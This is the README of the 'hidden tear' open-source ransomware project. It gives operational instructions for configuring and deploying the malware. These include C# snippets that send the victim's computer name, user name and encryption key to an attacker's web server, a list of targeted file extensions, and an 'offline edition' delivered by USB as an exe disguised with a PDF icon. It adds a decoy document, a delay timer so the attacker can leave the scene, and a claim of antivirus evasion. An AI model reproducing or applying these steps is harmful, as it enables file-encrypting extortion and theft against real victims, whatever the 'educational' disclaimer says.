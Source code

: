 # hidden tear 
Open Source Ransomware

Uploaded to GitHub for those who want to analyze the code.

### References

- https://www.tripwire.com/state-of-security/security-data-protection/cyber-security/hidden-tear-project-forbidden-fruit-is-the-sweetest/
- http://blog.trendmicro.com/trendlabs-security-intelligence/new-open-source-ransomwar-based-on-hidden-tear-and-eda2-may-target-businesses/
- https://securelist.com/blog/research/73565/hidden-tear-and-its-spin-offs/
- https://www.utkusen.com/blog/destroying-the-encryption-of-hidden-tear-ransomware.html
- https://blog.gdatasoftware.com/2016/11/29289-it-s-educational-on-the-no-1-argument-for-open-source-ransomware
- https://www.bleepingcomputer.com/news/security/hidden-tear-ransomware-developer-blackmailed-by-malware-developers-using-his-code/
- http://www.securityweek.com/variants-spawn-hidden-tear-ransomware


### 


         _     _     _     _              _                  
        | |   (_)   | |   | |            | |                 
        | |__  _  __| | __| | ___ _ __   | |_ ___  __ _ _ __ 
        | '_ \| |/ _` |/ _` |/ _ \ '_ \  | __/ _ \/ _` | '__|
        | | | | | (_| | (_| |  __/ | | | | ||  __/ (_| | |   
        |_| |_|_|\__,_|\__,_|\___|_| |_|  \__\___|\__,_|_|   
                                                     
It's a ransomware-like file crypter sample which can be modified for specific purposes. 

**Features**
* Uses AES algorithm to encrypt files.
* Sends encryption key to a server.
* Encrypted files can be decrypted in decryption program with encryption key.
* Creates a text file on Desktop with given message.
* Small file size (12 KB)
* Undetectable by antivirus programs (15/08/2015) http://nodistribute.com/result/6a4jDwi83Fzt

**Demonstration Video**

https://www.youtube.com/watch?v=LtiRISepIfs

**Usage**

* You need to have a web server which supports scripting languages like php,python etc. Change this line with your URL. (You better use Https connection to avoid eavesdropping)

  `string targetURL = "https://www.example.com/hidden-tear/write.php?info=";`

* The script should writes the GET parameter to a text file. Sending process running in `SendPassword()` function

  ```
  string info = computerName + "-" + userName + " " + password;
  var fullUrl = targetURL + info;
  var conent = new System.Net.WebClient().DownloadString(fullUrl);
  
  ```
* Target file extensions can be change. Default list:

```
var validExtensions = new[]{".txt", ".doc", ".docx", ".xls", ".xlsx", ".ppt", ".pptx", ".odt", ".jpg", ".png", ".csv", ".sql", ".mdb", ".sln", ".php", ".asp", ".aspx", ".html", ".xml", ".psd"};
```
## Hidden Tear Offline Edition or: How I Learned to Stop Worrying and Love the Criminal Mind

What if there is a computer with full of important files and what if it has no internet or network connection. We can access it physically. But what if we were being watched, how can we execute hidden tear and get the encryption key?

**Demonstration Video**

https://www.youtube.com/watch?v=ayjv_aAwO0k

**Prerequisites**

Firstly you should have a usb stick which includes:

* exe file of hidden tear offline with a pdf icon.
* a normal pdf file like hotel reservation, ticket, lecture notes (that depends on your social engineering scenario)
* a txt file

**Workflow**

After you plugged usb stick to the computer, double click to .exe file. Don't worry, the normal pdf file will be open.

Hidden tear offline creates an encryption key and saves it into the txt file which is inside your usb stick. After than it copies exe file to the computer and executes. This process will be done in seconds. After than, you can unplug your usb stick.

Hidden tear offline will wait for some time which specified before, lets say 10 minutes. After 10 minutes, it will encrypt all the target files in computer. This part is same with the original hidden tear.

**Usage**

* Hidden tear offline will save the encryption key inside this txt file.

`string usbPassword = "adobe.txt";`

* It copies itself to this path after the first execution.

`string exePath = userDir + userName + "\\table.exe";`

* Name of the normal pdf file.

`System.Diagnostics.Process.Start("ticket.pdf");`

* `Timer1`'s interval represents the encryption start time. If you set it to 600000 miliseconds, encryption action will start after 10 minutes the first execution. If you need more time to leave the scene, you can increase the interval.

## Legal Warning

While this may be helpful for some, there are significant risks. hidden tear may be used only for Educational Purposes. Do not use it as a ransomware! You could go to jail on obstruction of justice charges just for running hidden tear, even though you are innocent.

## Thanks

Special thanks to Ikikardes who helped me to publish this code.
